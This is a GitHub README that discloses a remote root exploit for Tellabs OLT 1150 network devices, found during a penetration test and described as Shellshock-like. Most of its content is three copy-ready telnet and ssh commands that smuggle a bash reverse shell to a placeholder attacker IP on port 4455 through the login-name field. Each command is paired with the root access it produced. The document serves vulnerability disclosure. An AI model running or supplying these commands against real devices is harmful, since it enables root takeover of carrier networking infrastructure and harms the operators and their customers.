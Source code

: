 # tellabs_rce
Tellabs OLT RCE

During a recent penetration test, a vulnerability in the way Tellabs handles incoming authentication/authorization was discovered which allowed us to bypass the authentication methods on the Tellabs OLT 1150 device. It is highly suspected that this vulnerability exists in other devices as well.

Steps to reproduce were rather simple, and based on the older Telnet "ShellShock" vulnerability.

It's known that the following methods all produced a netcat reverse shell as root:
Steps used to exploit:

telnet [OLTHOSTNAME] -l ";EOF() { :;}; /usr/bin/id & /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	The above command asked for the username within the telnet session, and when it timed out, produced the output: "uid=0(emsuser) gid=0(root)" showing that the second portion of the command was not parsed, and the system was vulnerable.

telnet [OLTHOSTNAME] -l "() { :;}; $((/bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1)) /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	The above command was run and produced a reverse 'netcat' style shell to the attacker IP address with a full root bash shell. Again, suspect the second portion of the command was unnecessary, but due to time constratints, was unable to test further.


ssh [OLTHOSTNAME] -l "''; /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	After 3 failed authentication attempts the connect back to the netcat listener occurs and you are dropped in a root shell. (Contributed by Sandia National Labratory)


Due to customer concerns with the critical nature of the networking infrastructure, further testing beyond the above was not possible, and the customer immediately contacted the vendor to work on a patch.
